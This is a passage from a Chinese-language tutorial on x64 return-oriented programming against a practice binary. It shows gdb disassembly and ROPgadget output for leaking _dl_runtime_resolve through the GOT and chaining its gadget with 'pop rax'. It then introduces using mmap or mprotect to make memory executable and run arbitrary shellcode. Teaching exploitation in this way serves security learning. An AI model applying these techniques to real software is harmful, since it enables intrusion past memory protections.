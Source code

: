 从`0x7ffff7def235`开始，就是这个通用gadget的地址了。通过这个gadget我们可以控制rdi，rsi，rdx，rcx， r8，r9的值。但要注意的是`_dl_runtime_resolve()`在内存中的地址是随机的。所以我们需要先用information leak得到`_dl_runtime_resolve()`在内存中的地址。那么`_dl_runtime_resolve()`的地址被保存在了哪个固定的地址呢？

通过反编译level5程序我们可以看到`write@plt()`这个函数使用PLT [0] 去查找write函数在内存中的地址，函数jump过去的地址*0x600ff8其实就是`_dl_runtime_resolve()`在内存中的地址了。所以只要获取到0x600ff8这个地址保存的数据，就能够找到`_dl_runtime_resolve()`在内存中的地址：

```
0000000000400420 <write@plt-0x10>:
  400420:   ff 35 ca 0b 20 00       pushq  0x200bca(%rip)        # 600ff0 <_GLOBAL_OFFSET_TABLE_+0x8>
  400426:   ff 25 cc 0b 20 00       jmpq   *0x200bcc(%rip)        # 600ff8 <_GLOBAL_OFFSET_TABLE_+0x10>
  40042c:   0f 1f 40 00             nopl   0x0(%rax)

gdb-peda$ x/x 0x600ff8
0x600ff8 <_GLOBAL_OFFSET_TABLE_+16>:    0x00007ffff7def200

gdb-peda$ x/21i 0x00007ffff7def200
   0x7ffff7def200 <_dl_runtime_resolve>:    sub    rsp,0x38
   0x7ffff7def204 <_dl_runtime_resolve+4>:  mov    QWORD PTR [rsp],rax
   0x7ffff7def208 <_dl_runtime_resolve+8>:  mov    QWORD PTR [rsp+0x8],rcx
   0x7ffff7def20d <_dl_runtime_resolve+13>: mov    QWORD PTR 
[rsp+0x10],rdx
….

```

另一个要注意的是，想要利用这个gadget，我们还需要控制rax的值，因为gadget是通过rax跳转的：

```
0x7ffff7def235 <_dl_runtime_resolve+53>:    mov    r11,rax
……
0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp    r11

```

所以我们接下来用ROPgadget查找一下libc.so中控制rax的gadget：

```
ROPgadget --binary libc.so.6 --only "pop|ret" | grep "rax"
0x000000000001f076 : pop rax ; pop rbx ; pop rbp ; ret
0x0000000000023950 : pop rax ; ret
0x000000000019176e : pop rax ; ret 0xffed
0x0000000000123504 : pop rax ; ret 0xfff0

```

`0x0000000000023950`刚好符合我们的要求。有了`pop rax`和`_dl_runtime_resolve`这两个gadgets，我们就可以很轻松的调用想要的调用的函数了。

0x02 利用mmap执行任意shellcode
=====

看了这么多rop后是不是感觉我们利用rop只是用来执行system有点太不过瘾了？另外网上和msf里有那么多的shellcode难道在默认开启DEP的今天已经没有用处了吗？并不是的，我们可以通过mmap或者mprotect将某块内存改成RWX(可读可写可执行)，然后将shellcode保存到这块内存，然后控制pc跳转过去就可以执行任意的shellcode了，比如说建立一个socket连接等。下面我们就结合上一节中提到的通用gadgets来让程序执行一段shellcode。
